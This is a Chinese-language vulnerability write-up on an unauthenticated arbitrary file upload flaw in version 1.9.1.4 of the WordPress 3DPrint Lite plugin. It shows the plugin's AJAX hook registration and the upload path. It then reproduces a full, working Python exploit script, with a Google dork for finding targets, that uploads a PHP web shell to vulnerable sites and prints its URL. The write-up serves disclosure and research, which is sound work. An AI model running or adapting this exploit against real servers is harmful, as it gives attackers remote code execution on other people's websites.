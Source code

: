 # 

# WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞

## 漏洞描述

WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限

## 漏洞影响

```
3DPrint Lite Version 1.9.1.4 版本
```

## 插件名

3DPrint Lite

https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip

## 漏洞复现

首先看一下插件注册的接口

![1638590530183-dbba3790-04d8-4567-bf1e-2f49629a9911](./images/202205241329738.png)

```
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

跟踪 p3dlite_handle_upload 方法 `wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php`

![2](./images/202205241331648.png)

向下看可以看到一个标准的文件上传代码

![3](./images/202205241331787.png)

通过调试可以找到上传路径 `/wp-content/uploads/p3d/`

![image-20220524133048318](./images/202205241330351.png)

未授权调用 p3dlite_handle_upload 上传文件

```
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();        
```

![4](./images/202205241331913.png)
